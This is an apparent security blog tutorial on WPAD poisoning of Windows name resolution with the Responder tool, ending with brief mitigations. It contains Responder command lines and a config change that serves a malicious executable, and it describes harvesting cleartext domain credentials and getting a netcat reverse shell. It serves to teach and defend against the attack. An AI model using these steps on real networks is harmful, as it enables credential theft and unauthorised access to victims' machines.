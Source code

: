 ```yaml
---
layout: post
title:  "Windows - WPAD poisoning using Responder"
categories: "windows"
tags:  windows responder
author: Trelis
---
```


* content
{:toc}

In this article it will be shown how it works Microsoft Windows's name resolution services and how can it be abused.




# WPAD
## Description
Organizations allow employees to access Internet through proxy servers to increase performance, ensure security and track traffic. Users who connect to the corporate network need to know which proxy server they have to use without doing any configuration.

If a browser is configured to automatically detect proxy settings, then it will make use of WPAD protocol to locate and download the wpad.dat, Proxy Auto-Config (PAC) file. 


## Protocol details
It searches computers named as “wpad” on the local network to find this file. And then following steps are carried out:
1. If the DHCP Server is configured, the client retrieves the wpad.dat file from the DHCP Server (if successful, step 4 is taken).
2. The wpad.corpdomain.com query is sent to the DNS server to find the device that is distributing the Wpad configuration. (If successful, step 4 is taken).
3 Send LLMNR or NBNS query for WPAD (if success, go step 4 else proxy can’t be use)
4. Download wpad.dat and use it.

In the following traffic capture, the machine sends the NBNS packets in broadcast asking for the wpad.dat:
![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/wireshark1.png)


# Vulnerability
## Description
When a machine has these protocols enabled, if the local network DNS is not able to resolve the name, the machine will ask to all hosts of the network. So, any host of the network, who knows its IP, can reply. Even if a host replies with an incorrect information, it will be still regarded as legitimate.

## Scenario
1. The victim will open the browser which is configured with the option "automatically detect settings" in "Local Area Network (LAN) Settings".
2. The name resolution, which will be performed with the steps we mentioned earlier, will be questioned on the victim’s computer first.
3. In step 2, because of the DNS Server does not have a corresponding record, the name of the system is sent as LLMNR or NetBIOS-NS query.
4. The attacker listens to network traffic, catches name resolution query. It tells to the victim that he has the wpad.dat the victim is look for.

According to the sequence above, if an attacker wants to be sure that the attack is successful, he must do:
1. DHCP poisoning attack
2. DNS poisoning attack
3. WPAD poisoning attack

This article is focused only in attacking the third step, making the assumption that neither DHCP nor DNS are configured.


# Exploiting
## Responder
Responder is a tool created by Laurent Gaffie used to obtain network credentials. This tool listens and answers LLMNR and NBT-NS procotols. 

Creating authentication services like SMB, MSSQL, HTTP, HTTPS, FTP, POP3, SMTP, Proxy WPAD, DNS, LDAP, etc, it will try that the victim sends its credentials to any of this services so the attacker can steal them. 

## Proof of Concept
To demonstrate the attack, Kali Linux is used to steal the credentials of a Windows 10 user. Kali has Responder pre-installed and can be found at the directory:
```
/usr/share/responder/
```

When the victim makes WPAD name resolution to the attacker WPAD fake server, it creates an authentication screen and it asks the client to enter his domain credentials. 

```
responder -I eth0 -wFb
```

![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/responder1.PNG)

The victim will see the following dialog box:

![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/authentication.PNG)


If the victim enters the credentials, the attacker will receive the username and password in clear-text:

![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/responder2.PNG)

With Wireshark, it can be seen how the victim tries to retrieve the wpad.dat file and it sends the password encoded with Base64:

![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/wireshark2.png)



Moreover, Responder is able to redirect the user to a fake webpage or serve a malicious executable.

The following changes must be done in the responder.conf file:
```
[HTTP Server]

; Set to On to replace any requested .exe with the custom EXE
Serve-Exe = On 

; Set to On to serve the custom HTML if the URL does not contain .exe
; Set to Off to inject the 'HTMLToInject' in web pages instead
Serve-Html = On
 ```

Then start Responder:
```
responder -I eth0 -I 10.7.7.31 -r On -w On -wFb
```

![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/responder3.PNG)


Now, when the victim tries to use the browser, he will see the following page:
![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/malicious_website2.png)

If, by chance, the victim clicks the link, a reverse shell will be downloaded:
![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/responder4.PNG)

Finally, if the victim executes the malicious executable, with netcat in port 140 the attacker will be able to obtain access to the victim's computer:
![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/shell.png)


# Mitigation
* First solution for this attack is, create DNS entry with “WPAD” that points to the corporate proxy server. So the attacker won’t be able to manipulate the traffic.
* Second solution is disable “Autodetect Proxy Settings” on all browsers.